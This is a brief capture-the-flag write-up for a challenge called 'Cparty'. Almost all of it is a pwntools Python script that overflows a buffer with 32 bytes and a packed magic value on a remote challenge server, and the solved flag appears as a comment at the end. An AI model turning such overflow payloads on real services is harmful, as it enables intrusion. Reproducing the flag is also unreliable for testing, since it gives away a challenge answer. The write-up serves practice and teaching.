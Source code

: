 # Cparty

![](./img/1.png#center)











To start I connect to the server to see what it asks me :



```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

from pwn import *


p = remote("89.38.210.128", 31338)


p.send("A"*32+p32(0xc0defefe))

p.recv(1024)

p.interactive()

#timctf{d0nt_cr4sh_th3_p4rty_b3_th3_p4rty}
```